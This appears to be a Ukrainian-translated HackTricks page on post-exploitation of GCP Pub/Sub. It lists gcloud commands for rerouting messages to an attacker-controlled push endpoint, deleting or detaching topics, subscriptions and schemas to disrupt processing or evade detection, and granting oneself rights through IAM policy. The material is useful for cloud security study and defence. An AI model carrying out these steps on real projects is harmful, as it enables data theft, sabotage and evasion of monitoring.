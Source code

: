 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Для отримання додаткової інформації про Pub/Sub перегляньте наступну сторінку:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Опублікуйте повідомлення в темі, корисно для **відправки несподіваних даних** та активації несподіваних функцій або експлуатації вразливостей:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Корисно для запобігання отриманню повідомлень підпискою, можливо, щоб уникнути виявлення.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Корисно для запобігання отриманню повідомлень підпискою, можливо, щоб уникнути виявлення.\
Можливо видалити тему, навіть якщо до неї прикріплені підписки.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Використовуйте цей дозвіл, щоб оновити деякі налаштування теми, щоб порушити її, такі як `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Надайте собі дозвіл виконувати будь-які з попередніх атак.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Отримайте всі повідомлення на веб-сервері:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Створіть підписку та використовуйте її для **витягування повідомлень**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Видалення підписки** може бути корисним для порушення системи обробки журналів або чогось подібного:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Використовуйте цей дозвіл, щоб оновити деякі налаштування, щоб повідомлення зберігалися в місці, до якого ви маєте доступ (URL, таблиця Big Query, Bucket) або просто щоб порушити це.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Надайте собі дозволи, необхідні для виконання будь-яких з раніше згаданих атак.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Атакуйте схему на тему, щоб повідомлення не відповідали їй, і, отже, тема була порушена.\
Якщо немає жодних схем, можливо, вам потрібно буде створити одну.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Це може виглядати як видалення схеми, але ви зможете надсилати повідомлення, які не відповідають схемі. Однак, оскільки схема буде видалена, жодне повідомлення насправді не потрапить у тему. Тож це **БЕЗГЛУЗДО**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Надайте собі дозволи, необхідні для виконання будь-яких з раніше згаданих атак.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Це створить знімок усіх не підтверджених повідомлень і поверне їх назад до підписки. Не дуже корисно для атакуючого, але ось так:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
